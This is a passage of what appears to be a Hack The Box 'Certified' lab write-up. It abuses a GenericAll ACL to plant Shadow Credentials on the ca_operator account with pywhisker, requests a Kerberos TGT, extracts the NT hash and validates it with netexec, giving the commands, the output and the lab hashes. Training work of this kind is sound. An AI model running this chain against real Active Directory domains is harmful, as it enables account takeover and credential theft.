




From further analysis within BloodHound , we identified a user called ca_operator . Using the bloodhound 's pathfinder utility, a way to escalation from the management_svc to ca_operator can be mapped.



We see the management_svc user has a GenericAll ACL over the ca_operator account. With the GenericAll ACL, we have complete control over the target object, including the GenericWrite ACL itself. Therefore, we use the same method we used before to access the ca_operator account using pywhisker for Shadow Credentials .
```bash
$ python pywhisker.py  -d certified.htb -u management_svc -H :a091c1832bcdd4677c28b5a6a1295584 --target ca_operator --action add
```
```bash

                                                                                                                                                      
┌──(kali㉿kali)-[~/…/Certified/bloodhound/pywhisker/pywhisker]
└─$  python pywhisker.py  -d certified.htb -u management_svc -H :a091c1832bcdd4677c28b5a6a1295584 --target ca_operator --action add 
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: db52c38c-6623-3d3a-58dc-bdb1719b14b9
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: QT2bjICy.pfx
/home/kali/Desktop/HTB_CTF/Certified/bloodhound/pywhisker/pywhisker/pywhisker.py:54: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  cert_obj = x509.load_pem_x509_certificate(pem_cert_data, default_backend())
[+] PFX exportiert nach: QT2bjICy.pfx
[i] Passwort für PFX: ucuk5jqE4VKDIgJoJPM1
[+] Saved PFX (#PKCS12) certificate & key at path: QT2bjICy.pfx
[*] Must be used with password: ucuk5jqE4VKDIgJoJPM1
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

### If you have any problem with the clock sync → $ sudo ntpdate certified.htb
```bash
$   python3 gettgtpkinit.py -cert-pfx ../QT2bjICy.pfx -pfx-pass ucuk5jqE4VKDIgJoJPM1 certified.htb/ca_operator ca_operator.ccache 
```


As recomend the gettgtpkinit.py we save de AS-REP encryption key → a0b9ac90c75afc50d42c3638f50cb8aa16efd1f957d529bc6956c99187db0961
```bash
$  KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key a0b9ac90c75afc50d42c3638f50cb8aa16efd1f957d529bc6956c99187db0961 -dc-ip 10.10.11.41 certified.htb/ca_operator
```



NT Hash → b4b86f45c6018f1b664f70805f45d8f2

We will check if this credentials are valid
```bash
$ netexec smb certified.htb -u 'ca_operator' -H  b4b86f45c6018f1b664f70805f45d8f2
```


[Back](README.md)